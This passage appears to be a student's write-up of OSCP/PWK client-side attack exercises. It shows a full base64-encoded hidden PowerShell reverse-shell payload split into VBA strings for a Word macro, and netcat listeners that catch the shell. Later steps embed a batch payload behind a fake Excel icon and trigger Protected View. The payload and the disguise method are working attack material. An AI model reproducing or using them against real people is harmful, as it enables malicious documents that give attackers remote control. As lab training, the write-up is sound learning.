for i in range(0, len(str), n):
  print "Str = Str + " + '"' + str[i:i+n] + '"'
```

Output of Python script (split.py):
```plaintext
kali@kali:~/gitWorkspace/pwk/oscpExercises/13_clientSideAttacks$ python split.py 
Str = Str + "powershell.exe -nop -w hidden -e aQBmACgAWwBJAG4Ad"
Str = Str + "ABQAHQAcgBdADoAOgBTAGkAegBlACAALQBlAHEAIAA0ACkAewA"
Str = Str + "kAGIAPQAnAHAAbwB3AGUAcgBzAGgAZQBsAGwALgBlAHgAZQAnA"
Str = Str + "H0AZQBsAHMAZQB7ACQAYgA9ACQAZQBuAHYAOgB3AGkAbgBkAGk"
Str = Str + "AcgArACcAXABzAHkAcwB3AG8AdwA2ADQAXABXAGkAbgBkAG8Ad"
Str = Str + "wBzAFAAbwB3AGUAcgBTAGgAZQBsAGwAXAB2ADEALgAwAFwAcAB"
Str = Str + "vAHcAZQByAHMAaABlAGwAbAAuAGUAeABlACcAfQA7ACQAcwA9A"
Str = Str + "E4AZQB3AC0ATwBiAGoAZQBjAHQAIABTAHkAcwB0AGUAbQAuAEQ"
Str = Str + "AaQBhAGcAbgBvAHMAdABpAGMAcwAuAFAAcgBvAGMAZQBzAHMAU"
Str = Str + "wB0AGEAcgB0AEkAbgBmAG8AOwAkAHMALgBGAGkAbABlAE4AYQB"
Str = Str + "tAGUAPQAkAGIAOwAkAHMALgBBAHIAZwB1AG0AZQBuAHQAcwA9A"
Str = Str + "CcALQBuAG8AcAAgAC0AdwAgAGgAaQBkAGQAZQBuACAALQBjACA"
Str = Str + "AJgAoAFsAcwBjAHIAaQBwAHQAYgBsAG8AYwBrAF0AOgA6AGMAc"
Str = Str + "gBlAGEAdABlACgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB"
Str = Str + "5AHMAdABlAG0ALgBJAE8ALgBTAHQAcgBlAGEAbQBSAGUAYQBkA"
Str = Str + "GUAcgAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABTAHkAcwB0AGU"
Str = Str + "AbQAuAEkATwAuAEMAbwBtAHAAcgBlAHMAcwBpAG8AbgAuAEcAe"
Str = Str + "gBpAHAAUwB0AHIAZQBhAG0AKAAoAE4AZQB3AC0ATwBiAGoAZQB"
Str = Str + "jAHQAIABTAHkAcwB0AGUAbQAuAEkATwAuAE0AZQBtAG8AcgB5A"
Str = Str + "FMAdAByAGUAYQBtACgALABbAFMAeQBzAHQAZQBtAC4AQwBvAG4"
Str = Str + "AdgBlAHIAdABdADoAOgBGAHIAbwBtAEIAYQBzAGUANgA0AFMAd"
Str = Str + "AByAGkAbgBnACgAJwAnAEgANABzAEkAQQBBAFMAbgBiAFYAOAB"
Str = Str + "DAEEANwBWAFcAYgBXAC8AYQBTAEIARAArAG4ARQBqADUARAAxA"
Str = Str + "GEARgBaAEYAcwBpAEcAQQBoAE4AbQBrAGkAVgB6AHUAYgBWAEI"
Str = Str + "AQgBQAEEAdwBRAFEAbwBxAGoAYgAyADIAbAA1AFkAZQA2AG0AO"
Str = Str + "QA1AHEAMwBYAC8AMwA1AGoAcwBOAHYAMABtAHQANgAxAEoANQA"
Str = Str + "wAEYAWQBqADAANwBNAHoAdgB6AHoARABPAHoAdQBFAGwAbwBjA"
Str = Str + "DgASgBDAFkAWABmAG8ASABXADYARgB6AHgAZgBuAFoAdwBNAFU"
Str = Str + "AbwBVAEMAUQBDAGcASAAyAGkAMABMAEIAQwA5AHQAdgA1AGIAT"
Str = Str + "QB6AGsAQgBmADQASgArAEcAOQBJAE0AMwBWADkAYgByAEIAQQB"
Str = Str + "rAFQAQwB4AGQAMQBkAFAAWQBrAGkASABQAEwAVABlADYAbQBOA"
Str = Str + "HUAUgByAEgATwBIAGkAbQBCAE0AZQBTAEwAUAB3AHAAVABIAHc"
Str = Str + "AYwA0AGMAdQBIADUAeQBXADIAdQBmAEIAWgBLAEgAdwBzAHQAU"
Str = Str + "wBsADcAUgBqAFIAVAAyADkAZQBSADcAVwBQAGgAVQBnADIAZAB"
Str = Str + "kAEsALwBIAGIASgBRAEcAVQB6AEwAWABsAEgAQgBKAC8AUABCA"
Str = Str + "EIAbABPAGUAWABsAFUAVwBwACsAUwBsAEIATgBKAFoARQBjAHg"
Str = Str + "AOQB6AEgASgBRAGMAUwBrAFYAWgArAEMASwBuAEIAegA3AHUAM"
Str = Str + "QAxAGcAUwBEAFcASgBIAEwARwBZAHUATAAwADEASQBlAEYAVQB"
Str = Str + "0AGoAYwBNAFkAdQBiAGcAUAAzAGoAYgBZAHcATgB4AG4AVABpA"
Str = Str + "HoASwBrAEEATgA4AEkAcwB5AFQASwBCAFEAZwBtADkAVAA4AHQ"
Str = Str + "AQwBtAEoAcwBCAHgARQB6AEYAWQBkAEoAOABKAHgATABCAGEAR"
Str = Str + "gBlAGUAcAA0AHYAbABqADgASQBjADIAegBVADAAZABKAHkARQB"
Str = Str + "tAEEAUwAzAHIASQBjAGMAVABXAEoAbwA0ADIAeABNAFoAeABxA"
Str = Str + "FkATgBDAGgAKwBJAFIAZABoAGQAZwBaAGYASwBJAGgATgA1AEM"
Str = Str + "AbABrAEYAdAB3ADEAWgBZAEsAbwBRAEoAcABVAFgAaABkADkAe"
Str = Str + "ABJAGYAYgB6AE4ATQBmAHQAVgBJACsAbQBsAEUAVwBnAE4AZQB"
Str = Str + "DAFEAWABvAFkAZwAvAFoARwBrAHcASgA2AEgANABaAEMAZQArA"
Str = Str + "EUAbQBaAGEAZABoAG0AZQB2AFAAUwBBADIAcABlAEwAOAA0AHQ"
Str = Str + "AegBOAHkAZQBLAGgANwAzAHkAUwA1ADcAQQA2AG0AeAArAFgAR"
Str = Str + "wBPAEkAVABSAHEAdwBtAEIAegAxADMAZwB2AGwAbwBtAEQAQQB"
Str = Str + "PAFkAaQB6AGEAQQArAHYAaABjAGMAbwB3AGYATABpAEsANwBKA"
Str = Str + "EMAWQBVAC8ATgA0AHMALwBOAEsANwBrAHUAYQBDADYAdABiAGg"
Str = Str + "AOQBFAGMANABzAFIAWgB3AEUAbQBXAFMAMABMAE8ATAA1AHEAc"
Str = Str + "AB2AEsAZgBjADcASwBCAFgAUgBMAGkAeABqADUARQBBAGIARgB"
Str = Str + "6ADIAawBtAHYAUQBZAHgAZABpAG8AOABwAGwAbgBLADEAUABnA"
Str = Str + "FEAbABpAGQAawBHAGQAaABxAFkAWQBnAC8AeABGAEwAYQAwADA"
Str = Str + "AagArAFkATgBRAFAAQwB2ADkAcABxAEMAYQBFAE8AagBsAFEAY"
Str = Str + "gB5AGgAUgBEAFYARgBCAEIAKwBmAHQAZwBUAHAAVwBRAFIARAA"
Str = Str + "wADAAYwBBAEEAUQBuAGQANgBCAGUAZwBVAFgAeQBJADUAegA3A"
Str = Str + "FkAegBnACsALwB6ADAAOQBCADIAVQB4AEQAcABGAGMAVgB3AFU"
Str = Str + "AQgBnAGwAMABtADEAMABVAFQASQB3AG8AZABvAHEAQwBHAHMAW"
Str = Str + "QBrADIAMQBJAFQAegBvADUATAA4AFYAdQA0AFIAawBJADUAcwB"
Str = Str + "WAEgATQBjADMAYwBMAE8AYwBjAHgATwA2AC8ATwB3AHAAaABIA"
Str = Str + "GkAUQAxAFYAZwA5AHcAZgB6AFQAVwAyAEMAYQBJAHAARgBFAFc"
Str = Str + "AaABRAHgAeQBzADcAVQAzAGkANQBlAGUASwByAHcASgBSAFIAN"
Str = Str + "QBSAEMARgA0AEMAbgBEAFIAUQBDAEoAQwBrAEEASgBrACsANQB"
Str = Str + "FAEUARwBJAGEAZAAzAGwAawBvAG0ANQBIAHEAdwBwAEQAawBEA"
Str = Str + "GwAMgBQAFUAdABpAGoAegBvADgAWQB6AHEAUgArADQAZwBEAHo"
Str = Str + "AdgBpADMAdwBQAE0AeQBYAHgAaQBiAGcAcABGAGoAcwBHAEwAO"
Str = Str + "ABLAEMAKwBKAG0AVwA4AEsARgBnAGsANABqAEEAOABVAGwAaAB"
Str = Str + "UAEUAdgAyAG4AMAAxADkATQBqAFcATQBjADkAUQBoAG4AaABaA"
Str = Str + "EQAeQA5AHAAaAByAGUANQA2AFMAdQB1AEEAUAByADEATgBDAFo"
Str = Str + "AcQBBAGMASQBZAGcANABwAE4AKwBLAFcASwBDAGgARwBGAC8AW"
Str = Str + "ABUAGkATgBDAGUAcQBNADgAawBMAG8ASwB6ADEAUQBQAHEAVwB"
Str = Str + "GAHIASwAxAEoAUgB0ADYAUwBpAEcALwBBAGQAawB5AHUAZABOA"
Str = Str + "FcANgBjACsAKwA2AHkAbwAwAFMATgBuAGUAKwBxAGUAcQB3AGI"
Str = Str + "AbgBVAEYAagAyAE8AbgBVAE4AbAAzAFQAcQBuAEcAegBxAGYAU"
Str = Str + "AA3AGcAYwA2AE4ANQB0AE4AeQBhAGEAcQBkADAAWABqAEsAWgA"
Str = Str + "3AHIAYQBlAFMAVABsADEAYgBSADIAVwBIAGYASgB3AGUAeQBwA"
Str = Str + "HoAbgBTAG4AWABCACsAMAB3ADcAYQBzADcAUQA1AEwAegAzAEc"
Str = Str + "AbgBEAGQAZgAxAGIAbAB4AHoAVgBIAG4AYgBJAHIAMQBKAGYAY"
Str = Str + "QBpAFYAcQA2AGoAWABhAEMAYQA5AGkAYgBiAFYAeQByAFcANAB"
Str = Str + "TAGIAYQBkAEkAUgBrAFAAVgA5ADAAVwBmADUANQBhAEYASQAxA"
Str = Str + "GQAeABYAHUAcQAzAEMASwB5ADYAMABWAEwAcQA4AEsATQBnADY"
Str = Str + "ANgBxAGIAZgAvAEsAUABuAFIAZABxACsAMABiAHoAbgA3AGEAV"
Str = Str + "QBXADQAbgB0AFoAWABhAFYATgBWADYAMgBMAFIAYQBHAHIAdQB"
Str = Str + "mAGEAcABFADYAVQBLAHgAeABTAHgAdQBPAG0AOQBwAHcAQwBMA"
Str = Str + "EoAcgBUADMARgByAEkASwBOAFYAMQBrAEoARwBuAFQAbQAzAE0"
Str = Str + "ANgBaADYANgB1AGgASgBEAHcAUABrAGEAeABPAHIAUwBtAGIAc"
Str = Str + "gBwADUARQBQAHYAbABvAFEAZwBxAEcAVQBhADcAcQBEAGQAKwB"
Str = Str + "4AGQAYgAwAEsAcwBqAFcASwBoAGQAcAAvAFAAMQBIAHEAMwBWA"
Str = Str + "G4ARwBlAHIARQBPAG4AaQB2AHoAdQB6AEUAcAA2AHQANwBQAFk"
Str = Str + "AYQBYAFkAYgBXADAAMgBkAFYAcABwAGQAcgBkAEYAVwBtADYAU"
Str = Str + "AB4AHUARABXAGIAVwBLAHYAWgA1AEoASABPAEoAdQBQAEsAagB"
Str = Str + "HAEYANwBxAC8AagBnAGcAMgBEAHQAdwBWAG8AOQBLADAAYgBiA"
Str = Str + "DAALwAxAGQAeABZAE8AegBiAG8ANwArAEEAeABMAFEANQA2AHE"
Str = Str + "AagAzAEkANwBmAGEAZQBIADIAMwBoAHQAcwBQAEcAYwA0AHUAU"
Str = Str + "gBuAHQAKwB2AHYAbgBLAGwAUABIAGkAbQBLADkAUwBhAGsAQQB"
Str = Str + "YAEMAagBzAGEARABWAHAAdgBDAGoAeQB6ADQAYQB6AGcAYQBMA"
Str = Str + "FkAUgB4AFMASwBEADMATQAzADcANwBjAFcAaQAxAHIAWgBLAEI"
Str = Str + "AMAB3AGsAbABwAEkAMAB1AG4AdQBYAGUARQBvAHgAQgBRAHUAT"
Str = Str + "AA3AGoAZQBjAHQAcQBxAGwARABJADcASABlAFQASABxAFEAdQB"
Str = Str + "YAHkARwBtADAAcAB6AGYATgBHAEoAWgBYADEAVgBkAFgAcwB2A"
Str = Str + "EIAVgBVAGYANAAyADQAbgBQAFIAMwBkADAATQB3AG8AUgBHAEE"
Str = Str + "ASwBxAFcAZQBqAGoAMAB1AEYAOABzADcANgA3AEsAWgBaAGoAW"
Str = Str + "AA1AFYAMgB0AEQARwBuACsAZQBtAFoAMQB0AHQANQBMAHEAYQB"
Str = Str + "kAGkATwB1ADUAUAAwAEcAUwB1ADYAZABHADEAbgBIAFoASABJA"
Str = Str + "GYANwA0AFAAKwBPAFYAdABhAFEAUABQADgANgAvADQAZgBWAE4"
Str = Str + "AOQBnACsANwB2ADQAUgBoAHUAWgBoAGwALwBJAFAAOABlADgAR"
Str = Str + "gB2AFEAZgByADcAeQBVADgAUQA0AGEAQgBxAHcAbABpAGgAKwB"
Str = Str + "IAFMAcgB2AFkANQBCAFIAbwA4AFgAMQAzADcAOABFAFcAcgB2A"
Str = Str + "FoAawAvADYAagArADAAaAA0AFoAZAA5ACsAQwA5AHcAYwBmADQ"
Str = Str + "AWABwADIAdABOAEwAeABzAEsAQQBBAEEAPQAnACcAKQApACkAL"
Str = Str + "ABbAFMAeQBzAHQAZQBtAC4ASQBPAC4AQwBvAG0AcAByAGUAcwB"
Str = Str + "zAGkAbwBuAC4AQwBvAG0AcAByAGUAcwBzAGkAbwBuAE0AbwBkA"
Str = Str + "GUAXQA6ADoARABlAGMAbwBtAHAAcgBlAHMAcwApACkAKQAuAFI"
Str = Str + "AZQBhAGQAVABvAEUAbgBkACgAKQApACkAJwA7ACQAcwAuAFUAc"
Str = Str + "wBlAFMAaABlAGwAbABFAHgAZQBjAHUAdABlAD0AJABmAGEAbAB"
Str = Str + "zAGUAOwAkAHMALgBSAGUAZABpAHIAZQBjAHQAUwB0AGEAbgBkA"
Str = Str + "GEAcgBkAE8AdQB0AHAAdQB0AD0AJAB0AHIAdQBlADsAJABzAC4"
Str = Str + "AVwBpAG4AZABvAHcAUwB0AHkAbABlAD0AJwBIAGkAZABkAGUAb"
Str = Str + "gAnADsAJABzAC4AQwByAGUAYQB0AGUATgBvAFcAaQBuAGQAbwB"
Str = Str + "3AD0AJAB0AHIAdQBlADsAJABwAD0AWwBTAHkAcwB0AGUAbQAuA"
Str = Str + "EQAaQBhAGcAbgBvAHMAdABpAGMAcwAuAFAAcgBvAGMAZQBzAHM"
Str = Str + "AXQA6ADoAUwB0AGEAcgB0ACgAJABzACkAOwA="
```

Add the output from python script split.py into MyMacro. It must be in between a `Dim Str As String` declaration **(ensure the Dim Str As String autocompletes. We know it does if it automatically changes font to blue colour)** and the `CreateObject("Wscript.Shell").Run Str` function. Close the MSVB window.


Save the MacroTest Word document, then close it.


Open a netcat listener
```plaintext
kali@kali:~$ nc -lnvp 4444
listening on [any] 4444 ...
```

Open the MacroTest document in Windows 2016


Press 'Enable Content'


Notice we now have a shell in Kali


# 13.3.3.1
## 13.3.3.1.1. Use the PowerShell payload to create a batch file and embed it in a Microsoft Word document to send a reverse shell to your Kali system.

To create a batch file named launch.bat that opens a command prompt: Open Notepad -> File -> -> Save As -> File name: launch.bat -> Save as type: All Files -> Save -> Close the file.


The contents of launch.bat will include the same payload as in the evil.hta.


Open Microsoft Word -> Create a `Blank document' -> Click the 'Insert' ribbon -> Object -> Create from File -> Browse for launch.bat to populate 'File name:' -> Check the 'Display as icon' box


change the icon to an Excel icon. Press the 'Change Icon' button -> browse to the EXCEL.exe location to populate the File name -> Press OK


Press OK again.


Notice the Windows document now has an Excel icon in it. Save it as launch.docx. Close the file

Here are its properties.


Start a netcat listener on Kali
```plaintext
kali@kali:~$ nc -lnvp 4444
listening on [any] 4444 ...
```

Open launch.docx


Click on ReadMe.xls. A security warning pops up.


Click Run.


Notice we now have a shell on Kali



# 13.3.4.1
## 13.3.4.1.1. Trigger the protection by Protected View by simulating a download of the Microsoft Word document from the Internet.

Start a netcat listener on Kali that will receive launch.docx upon connection.
```plaintext
kali@kali:~/gitWorkspace/pwk/oscpExercises/13_clientSideAttacks$ nc -lnvp 8888 > launch.docx
listening on [any] 8888 ...
connect to [192.168.119.214] from (UNKNOWN) [192.168.214.10] 58531
^C
```

On Windows, open a netcat client that sends launch.docx upon connection
```plaintext
C:\Users\Administrator\Desktop>nc -nv 192.168.119.214 8888 < launch.docx 
```

We see that the Kali machine successfully downloaded launch.docx. Move it to the Apache server and restart Apache
```plaintext
kali@kali:~/gitWorkspace/pwk/oscpExercises/13_clientSideAttacks$ nc -lnvp 8888 > launch.docx
listening on [any] 8888 ...
connect to [192.168.119.214] from (UNKNOWN) [192.168.214.10] 58531
^C
kali@kali:~/gitWorkspace/pwk/oscpExercises/13_clientSideAttacks$ ls -la launch.docx 
-rw-r--r-- 1 kali kali 17202 Sep 25 21:32 launch.docx
kali@kali:~/gitWorkspace/pwk/oscpExercises/13_clientSideAttacks$ sudo cp launch.docx /var/www/html
[sudo] password for kali: 
kali@kali:~/gitWorkspace/pwk/oscpExercises/13_clientSideAttacks$ sudo systemctl start apache2 
```

On Windows, open Internet Explorer and browse to the launch.docx hosted on the Kali machine.
http://192.168.119.214/launch.docx. 


Press Open. We see that the Protected View is triggered.


## 13.3.4.1.2. Reuse the batch file and embed it in a Microsoft Publisher document to receive a reverse shell to your Kali system.

Open the Publisher app. Open a Blank 8.5 x 11" document -> Insert ribbon -> Insert Object -> Create from file radio button -> browse to the launch.bat file -> OK
**Note: We are not displaying this as an icon**


This is what the Publisher file looks like
